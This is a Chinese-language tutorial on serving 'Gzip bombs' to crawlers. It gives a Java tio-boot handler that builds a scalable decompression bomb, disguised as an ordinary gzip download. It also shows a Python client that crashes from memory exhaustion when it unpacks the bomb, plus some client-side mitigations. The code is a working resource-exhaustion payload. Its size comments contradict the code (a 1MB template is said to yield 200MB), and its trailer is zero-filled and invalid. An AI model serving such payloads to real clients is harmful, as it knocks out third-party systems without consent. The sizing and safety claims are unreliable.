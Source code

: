 # Gzip Bomb：使用压缩炸弹防御恶意爬虫

## 引言

在网络世界中，恶意爬虫可能导致服务器资源枯竭、数据被盗等问题。本文将介绍一种创新的防御策略——**Gzip炸弹**，它通过发送高度压缩的数据（解压后体积指数级增长），使恶意爬虫消耗大量资源直至崩溃。以下实现基于Java的tio-boot框架，并附有Python爬虫示例展示其效果。

---

## Java服务端实现

### 核心逻辑
```java
package com.litongjava.linux.handler;

import java.io.ByteArrayOutputStream;
import java.util.zip.Deflater;

import com.litongjava.tio.boot.http.TioRequestContext;
import com.litongjava.tio.http.common.HttpRequest;
import com.litongjava.tio.http.common.HttpResponse;

import lombok.extern.slf4j.Slf4j;

@Slf4j
public class GzipBombTestHandler {

  // 预压缩的DEFLATE炸弹模板（1KB压缩数据 → 解压后200MB）
  private static final byte[] DEFLATE_BOMB_TEMPLATE = createDeflateBombTemplate();

  public HttpResponse output(HttpRequest request) {
    HttpResponse httpResponse = TioRequestContext.getResponse();

    // 1. 获取请求参数（默认500MB）
    Long sizeMb = request.getLong("size");
    if (sizeMb == null || sizeMb < 0) sizeMb = 500L;
    sizeMb = Math.min(sizeMb, 1000_000L); // 限制最大1000GB

    try {
      // 2. 生成炸弹数据
      byte[] bombData = generateScalableBomb(sizeMb);

      // 3. 设置响应头（伪装成普通GZIP文件）
      httpResponse.setContentType("application/octet-stream");
      httpResponse.setContentDisposition("attachment; filename=bomb.bin.gz");
      httpResponse.setBody(bombData);

      log.info("Sent Gzip bomb: {} MB -> {} bytes compressed", sizeMb, bombData.length);
    } catch (Exception e) {
      httpResponse.setStatus(500);
      httpResponse.setBody("Server error".getBytes());
    }
    return httpResponse;
  }

  /**
   * 生成可伸缩炸弹数据
   * @param sizeMb 期望解压后的大小(MB)
   */
  private byte[] generateScalableBomb(long sizeMb) {
    // 计算模板重复次数（每个模板解压后≈200MB）
    int repetitions = (int) Math.ceil((double) sizeMb / 200);
    
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    
    // GZIP头部（固定10字节）
    baos.write(new byte[]{ 
      0x1f, (byte)0x8b, // ID1和ID2（GZIP魔数）
      0x08,             // 压缩方法（DEFLATE）
      0x00,             // 标志位
      0x00, 0x00, 0x00, // 时间戳（未设置）
      0x00,             // 压缩标志
      0x03              // OS类型（Linux）
    }, 0, 10);

    // 重复添加压缩模板
    for (int i = 0; i < repetitions; i++) {
      baos.write(DEFLATE_BOMB_TEMPLATE, 0, DEFLATE_BOMB_TEMPLATE.length);
    }

    // GZIP尾部（CRC32校验+原始大小）
    baos.write(new byte[8], 0, 8); // 填充0值
    return baos.toByteArray();
  }

  /**
   * 创建DEFLATE炸弹模板
   * 原理：压缩1MB的0值数据，获得高压缩比模板
   */
  private static byte[] createDeflateBombTemplate() {
    try {
      // 使用最高压缩级别
      Deflater deflater = new Deflater(Deflater.BEST_COMPRESSION, true);
      
      byte[] input = new byte[1024 * 1024]; // 1MB全0数组
      deflater.setInput(input);
      deflater.finish();

      ByteArrayOutputStream baos = new ByteArrayOutputStream();
      byte[] buffer = new byte[1024];
      
      // 分段压缩数据
      while (!deflater.finished()) {
        int count = deflater.deflate(buffer, 0, buffer.length, Deflater.SYNC_FLUSH);
        baos.write(buffer, 0, count);
      }
      return baos.toByteArray();
    } catch (Exception e) {
      throw new RuntimeException("Deflate bomb creation failed", e);
    }
  }
}
```

### 关键特性
1. **高效压缩比**：1KB压缩数据 → 200MB解压数据
2. **动态扩展**：通过URL参数`size`控制炸弹大小
3. **资源保护**：限制最大生成大小（1000GB）
4. **伪装响应**：设置`Content-Disposition`诱导爬虫下载

---

## Python爬虫示例（危险操作！）

```python
import requests
import gzip

# 请求Gzip炸弹（5000MB版本）
r = requests.get("http://127.0.0.1/gzip/bomb/test?size=5000", stream=True)

with open("bomb.bin", "wb") as f:
    # === 内存杀手 ===
    # 尝试解压5GB炸弹数据 → 实际消耗内存远超5GB
    # 普通设备将立即OOM崩溃
    decompressed = gzip.decompress(r.content)  # 危险操作！
    f.write(decompressed)
```

### 执行结果
1. 内存占用瞬间飙升至数GB
2. Python进程因OOM(Out Of Memory)被系统终止
3. 爬虫程序崩溃，无法继续抓取

> **注意**：此代码仅用于演示，实际执行将导致系统卡死！

---

## 安全提示

### 谨慎使用场景
1. **反爬虫防御**：针对恶意爬虫的主动防御
2. **蜜罐系统**：诱捕扫描器/自动化攻击工具
3. **资源保护**：阻止大规模内容抓取

### 防御措施
1. **客户端**：
   - 设置请求超时（`timeout=10`）
   - 流式处理响应（`iter_content`）
   ```python
   # 安全读取方式
   with requests.get(url, stream=True) as r:
       for chunk in r.iter_content(chunk_size=8192): 
           # 处理小数据块
   ```

2. **服务端**：
   - 添加授权验证
   - 记录请求频率
   - 结合IP黑名单使用

---

## 实现原理

### Gzip炸弹工作机制
```mermaid
graph LR
A[客户端请求] --> B{服务端检测}
B -->|合法请求| C[返回正常数据]
B -->|恶意爬虫| D[生成Gzip炸弹]
D --> E[发送高度压缩数据]
E --> F[客户端尝试解压]
F --> G[内存/CPU资源耗尽]
G --> H[爬虫进程崩溃]
```

![111](./assets/gzip_mermaid_20250706_84636f.svg)

### 技术优势
1. **极低成本**：服务端仅需KB级资源消耗
2. **精准打击**：不影响正常用户（浏览器会流式处理）
3. **难以检测**：响应格式与普通GZIP文件一致

---

## 结语

Gzip炸弹作为一种"以攻代守"的防御策略，能有效对抗资源贪婪型爬虫。但需注意：**此技术可能违反部分地区的法律法规**，务必在授权环境下使用。理想的安全架构应结合速率限制、行为分析和验证码等多层防御，Gzip炸弹仅作为最后一道防线。